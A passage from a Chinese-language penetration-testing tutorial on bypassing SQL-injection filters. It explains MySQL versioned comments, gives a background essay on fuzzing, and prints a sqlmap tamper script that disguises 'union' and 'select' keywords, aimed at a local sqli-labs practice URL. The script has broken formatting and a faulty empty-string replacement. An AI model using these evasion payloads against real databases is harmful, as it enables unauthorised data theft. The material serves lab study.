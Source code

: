 这里的50001表示假如 数据库是5.00.01以上版本，该语句才会被执行

因此固然注入语句在注释里，实际上它是会被执行的

假如是以下内容，就不会执行了，那是真正的注释了

`/* select * from test */;`

## fuzz绕过脚本结合编写测试(后期写脚本再讲)

### fuzz是什么

Fuzz 本意是 “羽毛、细小的毛发、使模糊、变得模糊”，后来用在软件测试领域，中文一般指 “模糊测试”，在渗透测试中指的是一种基于黑盒或灰盒的测试技术，通过自动化生成并执行大量的随机测试用例来发现产品或协议的未知漏洞。

Fuzz 技术首先是一种自动化技术，即软件自动执行相对随机的测试用例。因为是依靠计算机软件自动执行，所以测试效率相对人来讲远远高出几个数量级。比如，一个优秀的测试人员，一天能执行的测试用例数量最多也就是几十个，很难达到 100 个。而 Fuzz 工具可能几分钟就可以轻松执行上百个测试用例。

Fuzz 技术本质是依赖随机函数生成随机测试用例，随机性意味着不重复、不可预测，可能有意想不到的输入和结果。

根据概率论里面的 “大数定律”，只要我们重复的次数够多、随机性够强，那些概率极低的偶然事件就必然会出现。Fuzz 技术就是大数定律的典范应用，足够多的测试用例和随机性，就可以让那些隐藏的很深很难出现的 Bug 成为必然现象。

目前，Fuzz 技术已经是软件测试、漏洞挖掘领域的最有效的手段之一。Fuzz 技术特别适合用于发现 0 Day 漏洞，也是众多黑客或黑帽子发现软件漏洞的首选技术。Fuzz 虽然不能直接达到入侵的效果，但是 Fuzz 非常容易找到软件或系统的漏洞，以此为突破口深入分析，就更容易找到入侵路径，这就是黑客喜欢 Fuzz 技术的原因。

[Fuzz脚本的编写教程](https://www.jianshu.com/p/ba3f8f1815ad?utm_campaign=haruki&utm_content=note&utm_medium=reader_share&utm_source=qq)

### fuzz脚本示例

```python
#!/usr/bin/envpython

"""
Copyright(c)2006-2019sqlmapdevelopers(http://sqlmap.org/)
Seethefile'LICENSE'forcopyingpermission
"""

import os

from lib.core.common import singleTimeWarnMessage
from lib.core.enums import DBMS
from lib.core.enums import PRIORITY

__priority__=PRIORITY.HIGHEST

def dependencies():
	singleTimeWarnMessage("tamper script '%s' is only meant to be run against %s"%(os.path.basename(__file__).split(".")[0],DBMS.MYSQL))

def tamper(payload,**kwargs):
    
#%23a%0aunion/*!44575select*/1,2,3
	if payload:
        payload=payload.replace("union","%23a%0aunion")
        payload=payload.replace("select","/*!44575select*/")
        payload=payload.replace("%20","%23a%0a")
        payload=payload.replace("","%23a%0a")
        payload=payload.replace("database()","database%23a%0a()")
	return payload

import requests,time

url='http://127.0.0.1:8080/sqlilabs/Less-2/?id=-1'
union='union'
select='select'
```